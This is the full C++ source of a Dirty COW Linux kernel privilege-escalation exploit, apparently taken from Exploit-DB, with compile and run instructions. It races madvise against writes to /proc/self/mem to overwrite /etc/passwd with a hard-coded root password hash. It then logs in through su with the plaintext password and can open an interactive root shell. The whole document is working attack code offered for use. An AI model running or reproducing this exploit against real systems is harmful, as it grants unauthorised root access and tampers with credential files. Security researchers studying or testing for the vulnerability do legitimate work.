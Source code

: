 # dir-cow-2
// EDB-Note: Compile:   g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
// EDB-Note: Recommended way to run:   ./dcow -s    (Will automatically do "echo 0 > /proc/sys/vm/dirty_writeback_centisecs")
//
// -----------------------------------------------------------------
// Copyright (C) 2016  Gabriele Bonacini
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License as published by
// the Free Software Foundation; either version 3 of the License, or
// (at your option) any later version.
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
// You should have received a copy of the GNU General Public License
// along with this program; if not, write to the Free Software Foundation,
// Inc., 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301  USA
// -----------------------------------------------------------------

#include <iostream>
#include <fstream>
#include <string>
#include <thread>
#include <sys/mman.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/types.h>
#include <pwd.h>
#include <pty.h>
#include <string.h>
#include <termios.h>
#include <sys/wait.h>
#include <signal.h>

#define  BUFFSIZE    1024
#define  PWDFILE     "/etc/passwd"
#define  BAKFILE     "./.ssh_bak"
#define  TMPBAKFILE  "/tmp/.ssh_bak"
#define  PSM         "/proc/self/mem"
#define  ROOTID      "root:"
#define  SSHDID      "sshd:"
#define  MAXITER     300
#define  DEFPWD      "$6$P7xBAooQEZX/ham$9L7U0KJoihNgQakyfOQokDgQWLSTFZGB9LUU7T0W2kH1rtJXTzt9mG4qOoz9Njt.tIklLtLosiaeCBsZm8hND/"
#define  TXTPWD      "dirtyCowFun\n"
#define  DISABLEWB   "echo 0 > /proc/sys/vm/dirty_writeback_centisecs\n"
#define  EXITCMD     "exit\n"
#define  CPCMD       "cp "
#define  RMCMD       "rm "

using namespace std;

class Dcow{
    private:
       bool              run,        rawMode,     opShell,   restPwd;
       void              *map;
       int               fd,         iter,        master,    wstat;
       string            buffer,     etcPwd,      etcPwdBak,
                         root,       user,        pwd,       sshd;
       thread            *writerThr, *madviseThr, *checkerThr;
       ifstream          *extPwd;
       ofstream          *extPwdBak;
       struct passwd     *userId;
       pid_t             child;  
       char              buffv[BUFFSIZE];
       fd_set            rfds;
       struct termios    termOld,    termNew;
       ssize_t           ign;

       void exitOnError(string msg);
    public:
       Dcow(bool opSh, bool rstPwd);
       ~Dcow(void);
       int  expl(void);         
};

Dcow::Dcow(bool opSh, bool rstPwd) : run(true), rawMode(false), opShell(opSh), restPwd(rstPwd),
                   iter(0), wstat(0), root(ROOTID), pwd(DEFPWD), sshd(SSHDID), writerThr(nullptr),
                   madviseThr(nullptr), checkerThr(nullptr), extPwd(nullptr), extPwdBak(nullptr), 
                   child(0){ 
   userId = getpwuid(getuid());
   user.append(userId->pw_name).append(":");
   extPwd = new ifstream(PWDFILE);   
   while (getline(*extPwd, buffer)){
       buffer.append("\n");
       etcPwdBak.append(buffer);
       if(buffer.find(root) == 0){
          etcPwd.insert(0, root).insert(root.size(), pwd);
          etcPwd.insert(etcPwd.begin() + root.size() + pwd.size(), 
                        buffer.begin() + buffer.find(":", root.size()), buffer.end());
       }else if(buffer.find(user) == 0 ||  buffer.find(sshd) == 0 ){
          etcPwd.insert(0, buffer);
       }else{
          etcPwd.append(buffer);
       }
   }
   extPwdBak = new ofstream(restPwd ? TMPBAKFILE : BAKFILE);
   extPwdBak->write(etcPwdBak.c_str(), etcPwdBak.size());
   extPwdBak->close();
   fd = open(PWDFILE,O_RDONLY);
   map = mmap(nullptr, etcPwdBak.size(), PROT_READ,MAP_PRIVATE, fd, 0);
}

Dcow::~Dcow(void){
   extPwd->close();
   close(fd);
   delete extPwd; delete extPwdBak; delete madviseThr; delete writerThr; delete checkerThr;
   if(rawMode)    tcsetattr(STDIN_FILENO, TCSANOW, &termOld);
   if(child != 0) wait(&wstat); 
}

void Dcow::exitOnError(string msg){
      cerr << msg << endl;
      // if(child != 0) kill(child, SIGKILL);
      throw new exception();
}

int  Dcow::expl(void){
   madviseThr = new thread([&](){ while(run){ madvise(map, etcPwdBak.size(), MADV_DONTNEED);} });
   writerThr  = new thread([&](){ int fpsm = open(PSM,O_RDWR);  
                                  while(run){ lseek(fpsm, reinterpret_cast<off_t>(map), SEEK_SET); 
                                              ign = write(fpsm, etcPwd.c_str(), etcPwdBak.size()); }
                                });
   checkerThr = new thread([&](){ while(iter <= MAXITER){ 
                                         extPwd->clear(); extPwd->seekg(0, ios::beg); 
                                         buffer.assign(istreambuf_iterator<char>(*extPwd),
                                                       istreambuf_iterator<char>());
                                         if(buffer.find(pwd) != string::npos && 
                                            buffer.size() >= etcPwdBak.size()){
                                                run = false; break;
                                         }
                                         iter ++; usleep(300000);
                                   }
                                   run = false;
                                 });

  cerr << "Running ..." << endl;
  madviseThr->join();
  writerThr->join();
  checkerThr->join();

  if(iter <= MAXITER){ 
       child = forkpty(&master, nullptr, nullptr, nullptr);

       if(child == -1) exitOnError("Error forking pty.");

       if(child == 0){ 
          execlp("su", "su", "-", nullptr);
          exitOnError("Error on exec.");
       }

       if(opShell) cerr << "Password overridden to: " <<  TXTPWD << endl;
       memset(buffv, 0, BUFFSIZE);
       ssize_t bytes_read = read(master, buffv, BUFFSIZE - 1);
       if(bytes_read <= 0) exitOnError("Error reading  su prompt.");
       cerr << "Received su prompt (" << buffv << ")" << endl; 

       if(write(master, TXTPWD, strlen(TXTPWD)) <= 0) 
            exitOnError("Error writing pwd on tty.");

       if(write(master, DISABLEWB, strlen(DISABLEWB)) <= 0) 
            exitOnError("Error writing cmd on tty.");

       if(!opShell){
            if(write(master, EXITCMD, strlen(EXITCMD)) <= 0) 
                 exitOnError("Error writing exit cmd on tty.");
       }else{
           if(restPwd){
               string restoreCmd = string(CPCMD).append(TMPBAKFILE).append(" ").append(PWDFILE).append("\n");
               if(write(master, restoreCmd.c_str(), restoreCmd.size()) <= 0) 
                    exitOnError("Error writing restore cmd on tty.");
               restoreCmd        = string(RMCMD).append(TMPBAKFILE).append("\n");
               if(write(master, restoreCmd.c_str(), restoreCmd.size()) <= 0) 
                    exitOnError("Error writing restore cmd (rm) on tty.");
           }

           if(tcgetattr(STDIN_FILENO, &termOld) == -1 )
                exitOnError("Error getting terminal attributes.");
    
           termNew               = termOld;
           termNew.c_lflag       &= static_cast<unsigned long>(~(ICANON | ECHO));
    
           if(tcsetattr(STDIN_FILENO, TCSANOW, &termNew) == -1)
                exitOnError("Error setting terminal in non-canonical mode.");
           rawMode = true;
    
           while(true){
                FD_ZERO(&rfds);
                FD_SET(master, &rfds);
                FD_SET(STDIN_FILENO, &rfds);
    
                if(select(master + 1, &rfds, nullptr, nullptr, nullptr) < 0 )
                    exitOnError("Error on select tty.");
    
                if(FD_ISSET(master, &rfds)) {
                    memset(buffv, 0, BUFFSIZE);
                    bytes_read = read(master, buffv, BUFFSIZE - 1);
                    if(bytes_read <= 0) break;
                    if(write(STDOUT_FILENO, buffv, bytes_read) != bytes_read)
                          exitOnError("Error writing on stdout.");
                }
    
                if(FD_ISSET(STDIN_FILENO, &rfds)) {
                    memset(buffv, 0, BUFFSIZE);
                    bytes_read = read(STDIN_FILENO, buffv, BUFFSIZE - 1);
                    if(bytes_read <= 0) exitOnError("Error reading from stdin.");
                    if(write(master, buffv, bytes_read) != bytes_read) break;
                }
            }
      }
  }
 
  return [](int ret, bool shell){ 
       string msg = shell ? "Exit.\n" : string("Root password is:   ") + TXTPWD + "Enjoy! :-)\n";
       if(ret <= MAXITER){cerr << msg; return 0;}
       else{cerr << "Exploit failed.\n"; return 1;} 
  }(iter, opShell);
}

void printInfo(char* cmd){
      cerr << cmd << " [-s] [-n] | [-h]\n" << endl;
      cerr << " -s  open directly a shell, if the exploit is successful;" << endl;
      cerr << " -n  combined with -s, doesn't restore the passwd file." << endl;
      cerr << " -h  print this synopsis;" << endl;
      cerr << "\n If no param is specified, the program modifies the passwd file and exits." << endl;
      cerr << " A copy of the passwd file will be create in the current directory as .ssh_bak" << endl;
      cerr << " (unprivileged user), if no parameter or -n is specified.\n" << endl;
      exit(1);
}

int main(int argc, char** argv){
   const char  flags[]   = "shn";
   int         c;
   bool        opShell   = false,
               restPwd   = true;

   opterr = 0;
   while ((c = getopt(argc, argv, flags)) != -1){
      switch (c){
         case 's':
            opShell = true;
         break;
         case 'n':
            restPwd = false;
         break;
         case 'h':
            printInfo(argv[0]);
         break;
         default:
            cerr << "Invalid parameter." << endl << endl;
            printInfo(argv[0]);
      }
   }

   if(!restPwd && !opShell){
            cerr << "Invalid parameter: -n requires -s" << endl << endl;
            printInfo(argv[0]);
   }

   Dcow dcow(opShell, restPwd);
   return dcow.expl();
}
